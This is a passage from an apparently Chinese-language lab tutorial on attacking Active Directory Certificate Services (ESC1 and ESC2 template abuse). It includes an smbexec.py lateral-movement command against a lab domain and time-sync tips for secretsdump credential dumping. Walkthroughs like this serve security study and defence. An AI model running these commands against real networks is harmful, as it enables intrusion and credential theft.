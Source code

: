 ```plain
横向移动
smbexec.py -no-pass -k ad.penson.com
```

如果 secretsdump 报错，同步一下时间

```plain
sudo apt install ntpdate
sudo ntpdate 172.16.0.106
```

这里有些环境需要配一下 dns 解析，linux 方便些，所以采用 kali  
[![](assets/1708508972-a1bc9ca593319fff8d4974e05f70a172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165900-4a028090-cfce-1.png)

[![](assets/1708508972-1b0295c2b04d3f3d3b9a5db9cfed5a56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165609-e3b921ea-cfcd-1.png)

# ESC2

ESC2 是指证书模板可用于任何目的。由于该证书可用于任何目的，因此对于大多数证书模板来说，它可用于与 ESC3 相同的技术。和 ESC1 差别不大

## 环境搭建

刚开始和 esc1 一样

